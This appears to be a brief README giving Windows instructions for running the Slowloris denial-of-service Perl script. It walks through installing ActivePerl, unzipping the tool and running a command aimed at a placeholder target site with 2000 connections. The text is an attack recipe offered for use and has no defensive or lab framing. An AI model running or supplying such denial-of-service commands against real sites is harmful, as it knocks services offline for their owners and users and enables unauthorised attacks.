 # SlowlorisAttack on Windows

1. Download and install active perl from the given link:
http://www.activestate.com/activeperl/downloads

2. Download the SlowlorisAttack and unzip it.

3. Open cmd and go to the folder SlowlorisAttack by the cmd.

4. Hit the command:

 slowloris.pl -dns (target site address) -port 80 -timeout 1 -num 2000
